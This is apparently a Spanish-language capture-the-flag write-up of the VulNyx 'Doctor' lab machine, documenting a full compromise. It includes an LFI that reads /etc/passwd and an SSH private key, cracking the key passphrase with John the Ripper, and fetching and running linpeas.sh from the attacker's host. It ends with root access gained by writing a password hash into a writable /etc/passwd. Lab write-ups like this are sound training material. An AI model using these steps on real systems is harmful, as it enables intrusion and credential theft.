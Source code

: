 # WriteUp: Doctor | VulNyx

Iniciamos realizando un escaneo con nmap para identificar los puertos abiertos:

```sh
nmap -n -Pn -sS -p- --min-rate 5000 192.168.56.26

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Luego realizamos otro escaneo para para identificar mayor información:

```sh
nmap -sVC -p22,80 192.168.56.26     

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:95:50:0b:e4:73:a1:85:11:ca:10:ec:1c:cb:d4:26 (RSA)
|   256 27:db:6a:c7:3a:9c:5a:0e:47:ba:8d:81:eb:d6:d6:3c (ECDSA)
|_  256 e3:07:56:a9:25:63:d4:ce:39:01:c1:9a:d9:fe:de:64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Docmed
```

Luego de esto visitamos el puerto 80 para identificar la web alojada:&#x20;

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

Inspeccionando la página con el fin de encontrar algún comentario que me haga más fácil la vida (jejej) me percaté de la siguiente estructura:

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

Así que pues ingresando a esa sección podemos confirmar la URL y un posible LFI:&#x20;

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

Así que intenté con algunas rutas bastante simples:&#x20;

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

Bueno, una mejor vista acá:

| Usuario          | Contraseña | UID      | GID      | Comentario/Info              | Directorio Home | Shell             |
| ---------------- | ---------- | -------- | -------- | ---------------------------- | --------------- | ----------------- |
| **root**         | x          | **0**    | **0**    | root                         | /root           | **/bin/bash**     |
| daemon           | x          | 1        | 1        | daemon                       | /usr/sbin       | /usr/sbin/nologin |
| bin              | x          | 2        | 2        | bin                          | /bin            | /usr/sbin/nologin |
| sys              | x          | 3        | 3        | sys                          | /dev            | /usr/sbin/nologin |
| sync             | x          | 4        | 65534    | sync                         | /bin            | /bin/sync         |
| games            | x          | 5        | 60       | games                        | /usr/games      | /usr/sbin/nologin |
| man              | x          | 6        | 12       | man                          | /var/cache/man  | /usr/sbin/nologin |
| lp               | x          | 7        | 7        | lp                           | /var/spool/lpd  | /usr/sbin/nologin |
| mail             | x          | 8        | 8        | mail                         | /var/mail       | /usr/sbin/nologin |
| news             | x          | 9        | 9        | news                         | /var/spool/news | /usr/sbin/nologin |
| uucp             | x          | 10       | 10       | uucp                         | /var/spool/uucp | /usr/sbin/nologin |
| proxy            | x          | 13       | 13       | proxy                        | /bin            | /usr/sbin/nologin |
| www-data         | x          | 33       | 33       | www-data                     | /var/www        | /usr/sbin/nologin |
| backup           | x          | 34       | 34       | backup                       | /var/backups    | /usr/sbin/nologin |
| list             | x          | 38       | 38       | Mailing List Manager         | /var/list       | /usr/sbin/nologin |
| irc              | x          | 39       | 39       | ircd                         | /var/run/ircd   | /usr/sbin/nologin |
| gnats            | x          | 41       | 41       | Gnats Bug-Reporting System   | /var/lib/gnats  | /usr/sbin/nologin |
| nobody           | x          | 65534    | 65534    | nobody                       | /nonexistent    | /usr/sbin/nologin |
| \_apt            | x          | 100      | 65534    |                              | /nonexistent    | /usr/sbin/nologin |
| systemd-timesync | x          | 101      | 102      | systemd Time Synchronization | /run/systemd    | /usr/sbin/nologin |
| systemd-network  | x          | 102      | 103      | systemd Network Management   | /run/systemd    | /usr/sbin/nologin |
| systemd-resolve  | x          | 103      | 104      | systemd Resolver             | /run/systemd    | /usr/sbin/nologin |
| messagebus       | x          | 104      | 110      |                              | /nonexistent    | /usr/sbin/nologin |
| sshd             | x          | 105      | 65534    |                              | /run/sshd       | /usr/sbin/nologin |
| systemd-coredump | x          | 999      | 999      | systemd Core Dumper          | /               | /usr/sbin/nologin |
| **admin**        | x          | **1000** | **1000** | admin                        | /home/admin     | **/bin/bash**     |

Esto es muy interesando, logro visualizar al usuario root y admin, sería muy conveniente si pudiera visualizar el rsa de ambos usuarios.

Intenté mostrar el rsa del root, sin embargo no tuve respuesta, y claro, es evidente, debido a que el UID y GID están en 0, lo cual está reservado solo para el mismo root (pero bueno, no perdía nada intentándolo).

```sh
http://192.168.56.26/doctor-item.php?include=/home/root/.ssh/id_rsa
```

Luego de ello, intenté listar el rsa del usuario admin, como podemos ver su UID Y GID están en 1000, por lo que es muy probable que tengamos alguna visual:&#x20;

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

Y sí, logramos obtener la clave rsa de admin, sin embargo, podemos visualizar que dice `Proc-Type: 4,ENCRYPTED DEK-Info`, por lo que la clave rsa está encriptada. Esto significa que está protegida por una contraseña para que, incluso si alguien roba el archivo, no pueda usarla.

Bien, entonces lo siguiente que hice fue tratar de encontrar la clave del rsa a través de fuerza bruta con John the Ripper:

```sh
# Copiamos la clave rsa y la pegamos en un nuevo archivo
$ nano credenciales

# Luego generamos un archivo que JtR pueda leer
$ ssh2john credenciales > crede.txt

# Y por último, lo pasamos a JtR para que busque la contraseña:
$ john --wordlist=/usr/share/wordlists/rockyou.txt crede.txt

Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXXXX          (credenciales) 

# 7u7!! listo, JtR nos dio la clave 7u7!! 
```

Luego, intentamos la conexión por SSH:

```sh
# Primero le damos los permisos necesarios al archivo
chmod 600 credenciales

# Luego nos conectamos
ssh -i credenciales admin@192.168.56.26
Enter passphrase for key 'credenciales': 
admin@doctor:~$ id
uid=1000(admin) gid=1000(admin) grupos=1000(admin)

# 7u7!!!!
```

Bien, lo siguiente que hice fue buscar permisos de ejecución:

```sh
sudo -l
# NADA

find / -perm -u=s -type f 2>/dev/null
# NADA

cat /etc/crontab
# NADA

grep -r "password" /var/www/html 2>/dev/null
# NADA
```

Debido a que no encontré nada T-T! decidí automatizar :D!!!!! con LinPeas :D!!! En kali ya lo tenemos descargado.

```sh
# Nos movemos a 
cd /usr/share/peass/linpeas

# Creamos un servidor con python
python3 -m http.server 80
```

En nuestra máquina victima nos vamos a `/tmp` ya que ahí tenemos todos los permisos.

```sh
cd /tmp

# Descargamos LinPeas de nuestro kali
wget http://192.168.56.22/linpeas.sh

# Le damos permisos
chmod +x linpeas.sh

# Luego ejecutamos
./linpeas.sh
```

Luego de un momento de espera y de revisar toda la información, nos encontramos con los siguiente:&#x20;

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

7u7!!!! BINGOOO!!!

Que LinPeas nos muestre `"/etc/passwd is writable"` significa que nuestro usuario (`admin`) tiene permisos para modificar este archivo crítico del sistema.

Normalmente, las contraseñas están seguras en el archivo `/etc/shadow`, que solo `root` puede leer. El archivo `/etc/passwd` solo contiene una `x` en el campo de la contraseña (`root:x:0:0...`) para indicarle al sistema que busque en `/etc/shadow`.

Como ahora nosotros podemos escribir en `/etc/passwd`, podemos reemplazar `x` con nuestra propia contraseña cifrada. Al hacer esto, el sistema ya no usará `/etc/shadow` para autenticar a `root`, sino que usará la contraseña que acabamos de adjuntar.

Para este proceso vamos a generar una contraseña cifrada para reemplazar a la `x`, hacemos lo siguiente:

```sh
openssl passwd -1 123456

# 123456 es la contraseña que deseamos cifrar
```

Esto nos genera: `$1$gTqcQbju$b5huo6K8egw0UDboANeq/.` Ahora vamos a editar el archivo reemplazando la `x` en root:

```sh
nano /etc/passwd

root:x:0:0:root:/root:/bin/bash
```

Ahora tenemos:

```sh
root:$1$gTqcQbju$b5huo6K8egw0UDboANeq/.:0:0:root:/root:/bin/bash
```

Guardamos los cambios y salimos del editor (en `nano`, es `Ctrl+O`, `Enter`, y luego `Ctrl+X`).

Y ahora solo tenemos que convertirnos en root:

```sh
su root
```

El sistema nos pedirá la contraseña. Introducimos la que registramos (`123456`).

```sh
admin@doctor:/tmp$ su root
Contraseña: 
root@doctor:/tmp# id
uid=0(root) gid=0(root) grupos=0(root)

# 7u7!!!! Listo, máquina terminada 7u7!!!!!!
```
